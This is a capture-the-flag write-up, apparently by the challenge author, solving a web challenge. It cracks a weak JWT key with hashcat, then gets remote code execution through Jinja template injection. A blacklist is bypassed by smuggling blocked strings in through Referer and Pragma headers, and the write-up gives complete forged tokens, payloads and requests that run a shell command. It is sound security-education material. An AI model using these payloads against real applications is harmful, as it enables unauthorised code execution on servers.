


# Cracking the JWT

The JWT is signed with a weak key. You can bruteforce the jwt with hashcat using the rockyou.txt wordlist.

```bash
hashcat -m 16500 jwt.txt rockyou.txt
```

After doing so, you recover the signing key: `torontobluejays`

# SSTI

By modifying the JWT payload, we can bypass the restriction on the login page of alphanumeric characters. By entering a payload like `{{7*7}}`, we see the username reflected as `49`. This helps us confirm that the application is vulnerable to SSTI.

## The blacklist
The first thing we might try is a typical SSTI to RCE payload such as the following:

```py
{{2.__class__.mro()[1].__subclasses__()[239].__init__.__globals__['sys'].modules['os'].popen('cat flag.txt').read()}}
```

However, we get the error detailing that there were malicious strings detected in the input:




Additionally, if we try to bypass the filter with a request by making a request such as `/dashboard?a=__getitem__`, we get another error:


This rules out the typical SSTI filter bypass of referencing a blacklisted string with something like `{{request.args.a}}`.



I also added in a little easter egg for my pyjail enjoyers. If you attempt to add any non-ascii characters to the payload, you get an error:

Given that the app tells us what parts of our input were blocked, a good step would be to fuzzing characters and properties of the [flask.Request](https://tedboy.github.io/flask/generated/generated/flask.Request.html) object along with some common Jinja SSTI filter bypass payloads to enumerate the entire blacklist. 

After doing so, we can determine the entire blacklist:

```py
restricted_stuff = [',', '[', ']', '"', "'", '_', '\\','/','headers','url','path','data','json','args','cookies','files','form','flag', '%', 'os','system','popen','sys','module','mro','class','base','getitem','subprocess','application','config','list','dict','global','builtins','import','join','first','last','reverse','lower','upper','items','format']
```

## Original Solution (scuffed)

Single quotes, double quotes, and underscores are all blacklisted. These are integral for gaining RCE through class traversal. In previous CTFs, `request.args` or `requests.headers` has always been a go-to method of getting access to blacklisted strings. Both seem unusable at first glance. However, inspecting the documentation for [flask.Request](https://tedboy.github.io/flask/generated/generated/flask.Request.html), we find that there are a few headers that can be accessed without going through `request.headers`, and also without using any of the blacklisted strings. Some examples

- `request.referrer`
- `request.pragma`
- `reqiest.mimetype`
- `request.host`

All of these can be used to smuggle in blacklisted strings. We also can make use of the syntax: `{{object | attr('property_name')}}` to access blacklisted properties. For example, to access `request.headers`, we can set the request header: `Referer: headers` and then use the payload `{{request | attr(request.referrer)}}`. In my solution, I also set the header `Pragma: __getitem__` to use as a primitive to access any single character of a string, or to access any element of a list. This lets me store blacklisted strings within any arbitrary 1 character header. For example:


1. Store the string "mro" in the header `h` by setting the header `h: mro`
2. To get the string "mro", I'd want to eventually access request.headers.h, which can be done through crafting a payload equivalent to `request.headers.get(request.referrer.__getitem__(0))`

Using this technique, I came up with the solution below:

### JWT Payload

```json
{
  "username":"{{(((((((2 | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(0)))) |attr((request | attr(request.referrer)).get(request.referrer | attr(request.pragma)(0)))() | attr(request.pragma)(1) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(1)))() | attr(request.pragma)(239) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(2))) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(3)))).get((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(4))) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(5))) ).get((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(6))) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(7)))))((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(8)))) | attr((request | attr(request.referrer)).get((request.mimetype | attr(request.pragma))(9))))()}}"
}
```

### Request
```
GET /dashboard HTTP/1.1
Host: 127.0.0.1:1337
Cookie: auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Int7KCgoKCgoKDIgfCBhdHRyKChyZXF1ZXN0IHwgYXR0cihyZXF1ZXN0LnJlZmVycmVyKSkuZ2V0KChyZXF1ZXN0Lm1pbWV0eXBlIHwgYXR0cihyZXF1ZXN0LnByYWdtYSkpKDApKSkpIHxhdHRyKChyZXF1ZXN0IHwgYXR0cihyZXF1ZXN0LnJlZmVycmVyKSkuZ2V0KHJlcXVlc3QucmVmZXJyZXIgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSgwKSkpKCkgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSgxKSB8IGF0dHIoKHJlcXVlc3QgfCBhdHRyKHJlcXVlc3QucmVmZXJyZXIpKS5nZXQoKHJlcXVlc3QubWltZXR5cGUgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSkoMSkpKSgpIHwgYXR0cihyZXF1ZXN0LnByYWdtYSkoMjM5KSB8IGF0dHIoKHJlcXVlc3QgfCBhdHRyKHJlcXVlc3QucmVmZXJyZXIpKS5nZXQoKHJlcXVlc3QubWltZXR5cGUgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSkoMikpKSB8IGF0dHIoKHJlcXVlc3QgfCBhdHRyKHJlcXVlc3QucmVmZXJyZXIpKS5nZXQoKHJlcXVlc3QubWltZXR5cGUgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSkoMykpKSkuZ2V0KChyZXF1ZXN0IHwgYXR0cihyZXF1ZXN0LnJlZmVycmVyKSkuZ2V0KChyZXF1ZXN0Lm1pbWV0eXBlIHwgYXR0cihyZXF1ZXN0LnByYWdtYSkpKDQpKSkgfCBhdHRyKChyZXF1ZXN0IHwgYXR0cihyZXF1ZXN0LnJlZmVycmVyKSkuZ2V0KChyZXF1ZXN0Lm1pbWV0eXBlIHwgYXR0cihyZXF1ZXN0LnByYWdtYSkpKDUpKSkgKS5nZXQoKHJlcXVlc3QgfCBhdHRyKHJlcXVlc3QucmVmZXJyZXIpKS5nZXQoKHJlcXVlc3QubWltZXR5cGUgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSkoNikpKSB8IGF0dHIoKHJlcXVlc3QgfCBhdHRyKHJlcXVlc3QucmVmZXJyZXIpKS5nZXQoKHJlcXVlc3QubWltZXR5cGUgfCBhdHRyKHJlcXVlc3QucHJhZ21hKSkoNykpKSkpKChyZXF1ZXN0IHwgYXR0cihyZXF1ZXN0LnJlZmVycmVyKSkuZ2V0KChyZXF1ZXN0Lm1pbWV0eXBlIHwgYXR0cihyZXF1ZXN0LnByYWdtYSkpKDgpKSkpIHwgYXR0cigocmVxdWVzdCB8IGF0dHIocmVxdWVzdC5yZWZlcnJlcikpLmdldCgocmVxdWVzdC5taW1ldHlwZSB8IGF0dHIocmVxdWVzdC5wcmFnbWEpKSg5KSkpKSgpfX0ifQ.WOuqHapUXNcwWl7qGvleiDJkpoBUwSCMggc3wUGbIps
Pragma: __getitem__
Content-Type: 0123456789
Referer: headers
h: mro
0: __class__
1: __subclasses__
2: __init__
3: __globals__
4: sys
5: modules
6: os
7: popen
8: cat flag.txt
9: read
Content-Length: 0

```

## Alternative solution (cleaner)

When first writing this challenge, I hadn't realized that you can actually re-use the same headers multiple times through something like `request.pragma.0`, `request.pragma.1`, etc. As such, I used a new header for each string I wanted to smuggle. A more elegant solution is like this:

### JWT Payload

```py
{
  "username":"{{2 | attr(request.pragma.0) | attr(request.pragma.1)() | attr(request.pragma.3)(1) | attr(request.pragma.2)() | attr(request.pragma.3)(239) | attr(request.pragma.4) | attr(request.pragma.5) | attr(request.pragma.3)(request.pragma.6) | attr(request.pragma.7) | attr(request.pragma.3)(request.pragma.8) | attr(request.pragma.9)(request.pragma.10) | attr(request.pragma.11)()}}"
}
```


With the final request looking like this:

### Request

```
GET /dashboard HTTP/1.1
Host: 127.0.0.1:1337
Cookie: auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Int7MiB8IGF0dHIocmVxdWVzdC5wcmFnbWEuMCkgfCBhdHRyKHJlcXVlc3QucHJhZ21hLjEpKCkgfCBhdHRyKHJlcXVlc3QucHJhZ21hLjMpKDEpIHwgYXR0cihyZXF1ZXN0LnByYWdtYS4yKSgpIHwgYXR0cihyZXF1ZXN0LnByYWdtYS4zKSgyMzkpIHwgYXR0cihyZXF1ZXN0LnByYWdtYS40KSB8IGF0dHIocmVxdWVzdC5wcmFnbWEuNSkgfCBhdHRyKHJlcXVlc3QucHJhZ21hLjMpKHJlcXVlc3QucHJhZ21hLjYpIHwgYXR0cihyZXF1ZXN0LnByYWdtYS43KSB8IGF0dHIocmVxdWVzdC5wcmFnbWEuMykocmVxdWVzdC5wcmFnbWEuOCkgfCBhdHRyKHJlcXVlc3QucHJhZ21hLjkpKHJlcXVlc3QucHJhZ21hLjEwKSB8IGF0dHIocmVxdWVzdC5wcmFnbWEuMTEpKCl9fSJ9.fcHkEs1lpSOCZQ96Ve4SLtL36TVsKXMTgSJ5i6fzxHU
Pragma: __class__
Pragma: mro
Pragma: __subclasses__
Pragma: __getitem__
Pragma: __init__
Pragma: __globals__
Pragma: sys
Pragma: modules
Pragma: os
Pragma: popen
Pragma: cat flag.txt
Pragma: read
Content-Length: 6

```

# Flag

Using either solution, we get the flag: `uoftctf{That_firewall_salesperson_scammed_me_:(}`
